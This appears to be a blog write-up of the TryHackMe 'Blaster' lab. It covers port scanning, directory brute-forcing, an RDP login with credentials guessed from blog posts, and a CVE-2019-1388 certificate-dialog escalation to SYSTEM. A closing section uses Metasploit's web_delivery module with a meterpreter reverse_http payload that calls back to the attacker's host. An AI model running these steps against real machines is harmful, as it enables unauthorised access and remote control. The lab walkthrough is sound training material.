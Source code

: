 ```yaml
---
layout: post
title: "THM - Blaster"
date: 2022-02-03
categories: [Tryhackme, Windows]
tags: [retro, windows, redux, privesc]
image: ../../assets/img/posts/Blaster/blaster.png 

---
```


## Description

A blast from the past!

|**Room**|Retro|
|:---:|:---:|
|**OS**|Windows|
|**Difficulty**|Easy|
|**Room Link**| https://tryhackme.com/room/blaster|
|**Creator**|[DarkStar7471](https://twitter.com/darkstar7471)|

---

Deploy the machine and quickly scan the ports with rustscan,

```bash
rustscan -a 10.10.41.77
```
![rustscan](../../assets/img/posts/Blaster/rustscan.png)

we got 2 open ports. Let's scan them in detail with nmap.

```bash
nmap -sV -sC -p80,3389 10.10.41.77 -oN nmap.txt
```
![nmap](../../assets/img/posts/Blaster/nmap.png)
Scan results describes that port 80 Microsoft IIS server and port 3389 is running rdp server. Name of the machine is RetroWeb. Let's enumerate port 80. 

Visit http://10.10.41.77/,
![webpage1](../../assets/img/posts/Blaster/webpage1.png)
We got the welcome page of Microsoft IIS Server (default page).

From here, we can actually brute force the directories,

```bash
dirsearch -u http://10.10.41.77 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -i 200,301 -o dirsearch.txt 2>/dev/null
```
![dirsearch](../../assets/img/posts/Blaster/dirsearch.png)
dirsearch found the hidden directory named **/retro**. Let's enumerate it.

Visit http://10.10.41.77/retro/,
![webpage2](../../assets/img/posts/Blaster/webpage2.png)
By looking at this, I get the idea that this is kinda a blog website on retro games. There is a name Wade (might be username).

Looking around this website and I got suspicious of this blog, 
![webpage3](../../assets/img/posts/Blaster/webpage3.png)

So I followed this blog and landed on this page,
![webpage4](../../assets/img/posts/Blaster/webpage4.png)
Author of this blog is also the Wade then it might can be a password.

Since we know that rdp server is running then we can use `remmina` to connect to machine,
![rdp](../../assets/img/posts/Blaster/rdp.png)

There we got interface,
![rdp2](../../assets/img/posts/Blaster/rdp2.png)
and also our user flag.

There is hhupd.exe file, so I searched it on google,

> CVE-2019-1388 : An elevation of privilege vulnerability exists in the Windows Certificate Dialog when it does not properly enforce user privileges, aka 'Windows Certificate Dialog Elevation of Privilege Vulnerability'.

The POC of this vulnerability can be found on [Windows UAC Privilege Escalation CVE-2019-1388](https://www.programmersought.com/article/13092509797/).

Run hhupd.exe as administrator,
![rdp3](../../assets/img/posts/Blaster/rdp3.png)
when we try to enter the password which we don't know, then it will throw us an error. But actually, we can see "Show more details" button just before the password area. Let's click on that,

![rdp4](../../assets/img/posts/Blaster/rdp4.png)
it shows the program location and "show information about the publisher's certificate". Follow the link by clicking on it.

It opens up a dialogue box showing the information about certificate issuer,
![rdp5](../../assets/img/posts/Blaster/rdp5.png)
There is an "Issued By" text so I followed this link.

It opens up the Internet Explorer,
![rdp6](../../assets/img/posts/Blaster/rdp6.png)
but the page can't be loaded because this machine is not connected to internet.

We can save this webpage in "C:\Windows\System32\",
![rdp7](../../assets/img/posts/Blaster/rdp7.png)
now before saving it, type *.* to save it and there after scrolling down, we can see the cmd executable. Let's run this executable.

Command prompt opens up as System32,
![rdp8](../../assets/img/posts/Blaster/rdp8.png)
issuing `whoami` command reveals us that we are **nt authority\system** user means we are administrator.

Navigating to C:\Users\Administrator\Desktop and listing directory content, 
![rdp9](../../assets/img/posts/Blaster/rdp9.png)
we can see the root flag.

## Metasploit Method

Boot up the metasploit using `msfconsole -q` and then we are using web_delivery module to exploit this vulnerability,

```bash
use exploit/multi/script/web_delivery
```
![metasploit](../../assets/img/posts/Blaster/metasploit.png)
setting `options`:
- `set lhost tun0`
- `set target 2` (PSH)
- `set payload windows/meterpreter/reverse_http`

Running this module in background using `run -j` (it will run the exploit in background and when it receives connection from remote machine, it will notify us to interact with that session),
![metasploit2](../../assets/img/posts/Blaster/metasploit2.png)
after running this module, we got the powershell command. Now, copy this command and paste this on remote machine command prompt.

When this pasted command gets executed on remote machine, our payload will get delivered,
![metasploit3](../../assets/img/posts/Blaster/metasploit3.png)
and we got a meterpreter session. 

Interact with session 1,
![metasploit4](../../assets/img/posts/Blaster/metasploit4.png)
issuing `getuid` command reveals that we are **NT AUTHORITY\SYSTEM** user.
